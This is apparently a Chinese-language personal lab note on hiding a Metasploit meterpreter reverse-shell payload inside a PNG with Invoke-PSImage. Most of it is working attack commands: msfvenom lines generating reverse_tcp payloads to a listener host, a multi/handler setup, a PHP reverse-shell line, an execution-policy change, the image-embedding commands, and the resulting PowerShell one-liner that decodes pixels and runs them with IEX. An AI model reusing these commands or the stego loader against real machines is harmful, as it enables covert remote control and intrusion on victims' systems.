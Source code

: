 
[Invoke-PSImage利用分析](https://www.4hou.com/technology/9472.html)

[msf使用参考](https://blog.csdn.net/nzjdsds/article/details/82929265)

fail

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.255.153 LPORT=2333 -f powershell  -o img.ps1 

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.255.153 LPORT=2333 -f powershell  -o img2.ps1   

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.255.153 LPORT=2333 -f powershell  -o img3.ps1  --smallest  

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.255.153 LPORT=2333 -f powershell  -o img4.ps1  --smallest   
```

success

```msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.255.153 LPORT=2333 -f psh-reflection  -o img.ps1 --smallest```

打开msf

```
use exploit/multi/handler
set LHOST 192.168.255.153
set LPORT 2333 
set PAYLOAD windows/x64/meterpreter/reverse_tcp
exploit
```

payload的选择取决于生成被控端文件用了什么模块，名字都是一样的

msfpayload php/reverse_php LHOST=x.x.x.x LPORT=2333 R > re.php

set PAYLOAD php/reverse_php

msf生成的payload执行可以反弹,但无法附加到生成的图片中执行

如果 powershell.ps1 不能被执行 ，修改权限：在powershell中执行 set-ExecutionPolicy RemoteSigned


打开受控端powershell,执行

```Import-Module C:\Users\Administrator\Desktop\Invoke-PSImage.ps1```

```Invoke-PSImage -Script C:\Users\Administrator\Desktop\img5.ps1 -Image C:\Users\Administrator\Desktop\q.jpg -Out C:\Users\Administrator\Desktop\ss.png```

回显

```
sal a New-Object;Add-Type -AssemblyName "System.Drawing";$g=a System.Drawing.Bitmap("C:\Users\Administrator\Desktop\ss.png");$o=a Byte[] 2960;(0..4)|%{foreach($x in(0..591)){$p=$g.GetPixel($x,$_);$o[$_*592+$x]=([math]::Floor(($p.B-band15)*16)-bor($p.G-band15))}};$g.Dispose();IEX([System.Text.Encoding]::ASCII.GetString($o[0..2778]))
```

在受控端powershell执行回显也会反弹，但没有复现成功

